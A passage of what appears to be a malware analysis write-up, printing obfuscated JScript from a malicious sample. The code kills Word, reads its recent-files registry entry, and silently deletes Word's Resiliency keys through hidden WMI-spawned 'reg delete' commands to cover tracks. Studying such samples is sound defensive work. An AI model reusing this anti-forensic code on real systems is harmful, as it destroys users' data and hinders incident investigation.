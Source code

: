 ```js
        try {ActXobj1.Run("taskkill /F /IM winword.exe", 0, 1);} 
        catch (e) {excepvalue = 691;}
    }
    
    ygahzfm28 = 0;
    var OfficeVersion = 11;
    var key;
    var datakey;
    var Namekey;
    // Variables used as breakpoint
    ygahzfm0731 = "reg delete ";
    ygahzfm64 = "HKCU\\Software\\Microsoft\\Office\\";
    ygahzfm354 = ".0\\Word\\";
    ygahzfm6906 = "Resiliency /f";
    ygahzfm619 = "File MRU\\Item 1";
```
###### The second performs a loop for getting the path of the last element open with word software and delete resiliency keys as anti-forensic. Once done, this uses the last element if the list of the recent files isn't empty in deleting the last element too or write and show an empty page (doc file). The attacker doesn't check the number of executions and deletes uniquely the last element if recent files have been opened or show empty file generated.

```js
    while (OfficeVersion <= 16) 
    {
        if (OfficeVersion !== 13) 
        {
            try 
            {
                key = ActXobj1.RegRead("HKCU\\Software\\Microsoft\\Office\\" + OfficeVersion + ".0\\Word\\File MRU\\Item 1"); // key last element open in word
                if (key) 
                {
                    try 
                    {
                        var wmiObj2 = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2");
                        var StartInfos2 = wmiObj2.Get("Win32_ProcessStartup").SpawnInstance_();
                        StartInfos2.ShowWindow = 0;
                        var process2 = wmiObj2.Get("Win32_Process").Create("reg delete HKCU\\Software\\Microsoft\\Office\\" + OfficeVersion + ".0\\Word\\Resiliency /f", null, StartInfos2, 0);
                        if (process2 !== 0) {ygahzfm6217;}
                    }
                    catch (e) 
                    {
                        try {ActXobj1.Run("reg delete HKCU\\Software\\Microsoft\\Office\\" + OfficeVersion + ".0\\Word\\Resiliency /f", 0, 1); } 
                        catch (e) {excepvalue = 953;}
                    }
                    datakey = key.split("*");
                    if (get_length(datakey) === 2) 
                    {
                        PathLastElement = datakey[1];
                        OfficeVersion = 23; // Stop loop 
                    }
                }
            }
            catch (e) {excepvalue = 168;}
        }
        OfficeVersion = OfficeVersion + 1;
```